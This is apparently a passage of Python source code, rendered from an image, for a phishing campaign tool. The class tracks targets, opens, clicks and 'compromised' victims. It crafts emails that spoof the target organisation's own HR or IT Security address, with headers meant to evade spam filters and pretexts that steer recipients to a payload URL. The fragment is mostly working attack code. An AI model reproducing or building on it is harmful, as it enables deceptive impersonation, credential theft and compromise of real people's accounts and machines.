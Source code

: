 ```python
    through payload delivery and tracking
    """
    
    def __init__(self, campaign_name: str, smtp_server: str, sender_email: str):
        self.campaign_name = campaign_name
        self.smtp_server = smtp_server
        self.sender_email = sender_email
        self.targets: List[Target] = []
        self.sent_emails: Dict[str, datetime] = {}
        self.opened_emails: Dict[str, datetime] = {}
        self.clicked_links: Dict[str, datetime] = {}
        self.compromised_targets: Dict[str, datetime] = {}
    
    def add_target(self, target: Target):
        """Add target to campaign after profiling"""
        self.targets.append(target)
        print(f"[+] Added target: {target.name} ({target.email})")
    
    def craft_email(self, target: Target, payload_url: str) -> MIMEMultipart:
        """
        Craft sophisticated phishing email with proper headers
        and believable content
        """
        msg = MIMEMultipart('alternative')
        
        # Generate contextual subject and pretext
        pretext = target.generate_pretext()
        msg['Subject'] = pretext
        msg['From'] = self._generate_sender_name(target)
        msg['To'] = target.email
        
        # Add headers to avoid spam filters
        msg['Message-ID'] = self._generate_message_id()
        msg['Date'] = datetime.now().strftime("%a, %d %b %Y %H:%M:%S +0000")
        msg['X-Priority'] = '1'  # Mark as high priority
        msg['Importance'] = 'high'
        
        # Craft email body
        html_body = self._craft_html_body(target, payload_url, pretext)
        text_body = self._craft_text_body(target, payload_url, pretext)
        
        # Attach both plain text and HTML versions
        part1 = MIMEText(text_body, 'plain')
        part2 = MIMEText(html_body, 'html')
        msg.attach(part1)
        msg.attach(part2)
        
        return msg
    
    def _generate_sender_name(self, target: Target) -> str:
        """
        Generate believable sender name based on target's department
        Mimics internal company communication patterns
        """
        if target.department.lower() in ['hr', 'human resources']:
            return f"HR Department <hr@{self._get_target_domain(target.email)}>"
        elif target.department.lower() in ['it', 'engineering']:
            return f"IT Security <security@{self._get_target_domain(target.email)}>"
        else:
            return f"Internal Communications <noreply@{self._get_target_domain(target.email)}>"
    
    def _get_target_domain(self, email: str) -> str:
        """Extract domain from target email for spoofing"""
```